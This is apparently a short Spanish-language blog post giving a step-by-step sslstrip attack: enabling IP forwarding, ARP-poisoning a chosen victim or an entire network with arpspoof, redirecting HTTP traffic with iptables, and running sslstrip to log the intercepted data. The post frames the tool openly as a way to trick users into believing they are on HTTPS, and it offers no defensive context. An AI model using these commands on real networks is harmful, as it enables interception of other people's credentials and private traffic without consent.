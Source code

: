 ```yaml
---
layout: post
title: "sslstrip"
date: 2013-12-15 18:19
comments: true
categories: 
---
```

Herramienta para engañar al usuario haciéndole pensar que se encuentra en un sitio de Internet con cifrado SSL [HTTPS], cuando en realidad todos los datos están siendo transmitidos en abierto [HTTP].

Configuración de reenvío de paquetes IP:

>~# echo 1 > /proc/sys/net/ipv4/ip_forward

Envenenamiento ARP (paquete dsniff):

>~# arpspoof -i eth0 -t ip_victima ip_router

En caso de querer atacar toda la red, solo especificar la ip router:

>~# arpspoof -i eth0 ip_router

Redirección de puertos usando Iptables:

>~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 31715

Al reiniciar el ordenador se borrará la regla, si se quiere borrar al momento cambiar "-A" por un "-D" en el comando anterior.

Arrancar sslstrip y ponerlo a la escucha:

>~# sslstrip -k -f -l 31715 -w archivo.log

Visionar en tiempo real los paquetes capturados:

>~#  tail -f archivo.log

